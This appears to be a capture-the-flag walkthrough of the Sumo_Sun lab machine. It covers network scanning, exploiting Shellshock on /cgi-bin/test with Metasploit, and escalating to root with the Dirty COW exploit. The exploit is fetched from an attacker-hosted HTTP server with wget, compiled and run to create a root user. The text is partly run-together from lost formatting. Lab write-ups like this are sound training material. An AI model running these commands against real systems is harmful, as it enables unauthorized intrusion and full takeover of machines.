

Good afternoon, today we will be walkthrough the Sumo_Sun machine from the SunCSR Team.
Enumeration
First, scan the internal network and find the ip address of our target.
{kind=link}
arp-scan -lWhen scanning ports, we find the apache2 server running on port 80, let's see what it contains.
{kind=link}
nmap -A -T4 192.168.2.102 > nmap_scan.txt && cat nmap_scan.txtAnd so before us is a regular web page. I will use nikto to find something interesting.
{kind=link}
Shell
Nikto detected an uncommon header and apparently this is a CVE hint that we need to use, we also see that /cgi-bin/test has a shellshock vulnerability.
{kind=link}
nikto -h http://192.168.2.102To exploit this vulnerability, I will use metasploit
{kind=link}
{kind=link}
set RHOSTS 192.168.2.102set TARGETURI /cgi-bin/testrunshellpython -c 'import pty; pty.spawn("/bin/sh")'PE
At this stage we successfully got access to the machine as www-data, now we need to get root
First, I will check the system for the dirty cow vulnerability using the dirtycowscan.sh script. As the script showed, the system is vulnerable
{kind=link}
Using python HTTP Server and wget I deliver exploit code to our goal. using gcc, I compile the exploit code and get the executable
{kind=link}
wget https://www.exploit-db.com/raw/40839mv 40839 dirty.cpython -m SimpleHTTPServer 91wget http://192.168.2.107:91/dirty.cgcc -pthread dirty.c -o dirty -lcryptUsing the exploit, I created a new root user with the password n3ws3cr3tpass. now i connect to it using ssh
{kind=link}
./dirty n3ws3cr3tpassfirefart:n3ws3cr3tpassAnd i got root flag
{kind=link}
{Sum0-SunCSR-2020_r001}